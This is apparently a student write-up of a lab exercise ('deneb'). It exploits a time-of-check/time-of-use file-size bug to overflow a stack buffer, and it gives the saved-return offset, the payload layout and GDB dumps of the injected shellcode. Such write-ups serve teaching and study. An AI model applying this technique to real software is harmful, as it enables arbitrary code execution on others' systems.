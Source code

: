 # 05 - deneb Writeup

## Main Idea

The code is vulnerable the once the file is opened and the size of file is checked, it will not check it again. So we can use a empty file to pass the check. Then we use a bigger file to exploit the program.

## Magic Numbers

The address of buffer is `0xffffd618`, the RIP is `0xffffd6ac`, so the location of RIP is 148 bytes away from the start of the buffer (0xffffd6ac - 0xffffd618).

``` C++
(gdb) i f
Stack level 0, frame at 0xffffd6b0:
 eip = 0x8049311 in read_file (orbit.c:47); saved eip = 0x804939c
 called by frame at 0xffffd6c0
 source language c.
 Arglist at 0xffffd6a8, args:
 Locals at 0xffffd6a8, Previous frame's sp is 0xffffd6b0
 Saved registers:
  ebp at 0xffffd6a8, eip at 0xffffd6ac
(gdb) x/16x buf
0xffffd618:     0x00000020      0x00000008      0x00001000      0x00000000
0xffffd628:     0x00000000      0x0804904a      0x00000000      0x000003ed      
0xffffd638:     0x000003ed      0x000003ed      0x000003ed      0xffffd81b      
0xffffd648:     0x178bfbff      0x00000064      0x00000000      0x00000000 
```

## Exploit Structure

Here is the stack diagram.

The exploit has three parts:

1. write SHELLCODE in buffer
2. write  148 - len(SHELLCODE) dummy characters to pad the interval.
3. write the address of the shellcode (0xffffd618) to the rip.
Write 20 dummy characters to overwrite `buf`, the compiler padding, and the sfp.

This causes the `orbit` function to start executing the shellcode at address `0xffffd618` when it returns.

## Exploit GDB Output

the stack before attack

```C++
(gdb) x/48x buf
0xffffd618:     0x00000020      0x00000008      0x00001000      0x00000000
0xffffd628:     0x00000000      0x0804904a      0x00000000      0x000003ed      
0xffffd638:     0x000003ed      0x000003ed      0x000003ed      0xffffd81b      
0xffffd648:     0x178bfbff      0x00000064      0x00000000      0x00000000      
0xffffd658:     0x00000000      0x00000000      0x00000000      0x00000001      
0xffffd668:     0x00000000      0xffffd80b      0x00000002      0x00000000      
0xffffd678:     0x00000000      0x00000000      0x00000000      0xffffdfe6      
0xffffd688:     0xf7ffc540      0xf7ffc000      0x00000000      0x00000000      
0xffffd698:     0x00000000      0x00000003      0x00000000      0x00000000      
0xffffd6a8:     0xffffd6b8      0x0804939c      0x00000001      0x08049391      
0xffffd6b8:     0xffffd73c      0x0804956a      0x00000001      0xffffd734      
0xffffd6c8:     0xffffd73c      0x080510a1      0x00000000      0x00000000 
```

the stack after attack

```c++
(gdb) x/48x buf
0xffffd618:     0xdb31c031      0xd231c931      0xb05b32eb      0xcdc93105
0xffffd628:     0xebc68980      0x3101b006      0x8980cddb      0x8303b0f3      
0xffffd638:     0x0c8d01ec      0xcd01b224      0x39db3180      0xb0e674c3      
0xffffd648:     0xb202b304      0x8380cd01      0xdfeb01c4      0xffffc9e8      
0xffffd658:     0x414552ff      0x00454d44      0x41414141      0x41414141      
0xffffd668:     0x41414141      0x41414141      0x41414141      0x41414141      
0xffffd678:     0x41414141      0x41414141      0x41414141      0x41414141      
0xffffd688:     0x41414141      0x41414141      0x41414141      0x41414141      
0xffffd698:     0x00000099      0x41414141      0x41414141      0x41414141      
0xffffd6a8:     0x41414141      0xffffd618      0x0000000a      0x08049391      
0xffffd6b8:     0xffffd73c      0x0804956a      0x00000001      0xffffd734      
0xffffd6c8:     0xffffd73c      0x080510a1      0x00000000      0x00000000
```
